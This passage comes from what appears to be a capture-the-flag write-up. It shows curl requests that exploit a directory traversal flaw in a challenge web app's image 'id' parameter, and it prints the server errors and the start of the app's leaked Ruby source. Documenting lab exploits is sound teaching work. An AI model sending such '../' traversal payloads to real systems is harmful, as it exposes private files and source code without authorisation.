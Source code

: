 Trying different variables, such as `test`, returns a path error.  This indicates the `app.rb` is accepting input and using it try and find files within a path:

```
jemurray@jasons-mbp ~ % curl https://tag-generator.kringlecastle.com/image\?id=test
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Is a directory @ io_fread - /tmp/test</p>
```

Trying more paths to see what happens, this time `/tmp`:

```
jemurray@jasons-mbp ~ % curl https://tag-generator.kringlecastle.com/image\?id=tmp
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Is a directory @ io_fread - /tmp/tmp</p>
```


The script is not sanitizing input and accepts `..` as an argument, allowing us to move up directories:  

```
jemurray@jasons-mbp ~ % curl https://tag-generator.kringlecastle.com/image\?id=..
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Is a directory @ io_fread - /tmp/..</p>
```

Alternatively, try in `burp suite`:

![](/images/2020-12-21-12-17-47.png)


We know from the errors above, the working directory is `/tmp`.  By adding `..` to the path, we can start to look for files within the root `/` directory.  By using the full path to the script `../app/lib/app.rp` we can display its contents:

```
jemurray@jasons-mbp ~ % curl https://tag-generator.kringlecastle.com/image\?id=../app/lib/app.rb
# encoding: ASCII-8BIT

TMP_FOLDER = '/tmp'
FINAL_FOLDER = '/tmp'

# Don't put the uploads in the application folder
Dir.chdir TMP_FOLDER

require 'rubygems'

require 'json'
require 'sinatra'
require 'sinatra/base'
require 'singlogger'
require 'securerandom'

require 'zip'
require 'sinatra/cookies'
require 'cgi'

require 'digest/sha1'

LOGGER = ::SingLogger.instance()

MAX_SIZE = 1024**2*5 # 5mb

# Manually escaping is annoying, but Sinatra is lightweight and doesn't have
# stuff like this built in :(
```